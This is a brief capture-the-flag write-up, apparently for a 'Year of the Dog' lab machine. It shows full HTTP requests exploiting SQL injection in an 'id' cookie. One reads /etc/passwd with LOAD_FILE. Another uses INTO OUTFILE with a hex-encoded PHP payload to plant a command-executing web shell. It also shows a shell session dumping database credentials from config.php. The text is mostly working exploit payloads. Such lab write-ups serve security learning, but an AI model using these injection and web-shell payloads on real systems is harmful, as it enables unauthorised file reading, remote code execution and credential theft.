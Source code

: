 

Found website on port 80, uses "id" cookie.
It turns out there's a SQL injection possible on the cookie, and using `LOAD_FILE` we can load files.

```
GET /index.php HTTP/1.1
Host: 10.10.78.133
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: id=d9bc8472b0c8fa83ac3d31cc0cbdddeb' UNION SELECT null,LOAD_FILE('/etc/passwd')-- -
Upgrade-Insecure-Requests: 1


```

use
```
GET /index.php HTTP/1.1
Host: 10.10.78.133
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: id=d9bc8472b0c8fa83ac3d31cc0cbdddeb' INTO OUTFILE '/var/www/html/shell.php' LINES TERMINATED BY 0x3C3F706870206563686F20223C7072653E22202E207368656C6C5F6578656328245F4745545B22636D64225D29202E20223C2F7072653E223B3F3E-- -
Upgrade-Insecure-Requests: 1


```
the payload ()

to create a file named `shell.php` , which executes any `?cmd=` command you put in.

Found credentials:
```
www-data@year-of-the-dog:/var/www/html$ cat config.php 
<?php
        $servername = "localhost";
        $username = "web";
        $password = "Cda3RsDJga";
        $dbname = "webapp";
        $dbh = new mysqli($servername, $username, $password, $dbname);
        if ($dbh->connect_error){
                die("Connection failed: ". $dbh->connect_error);
        }
?>
```
useless.
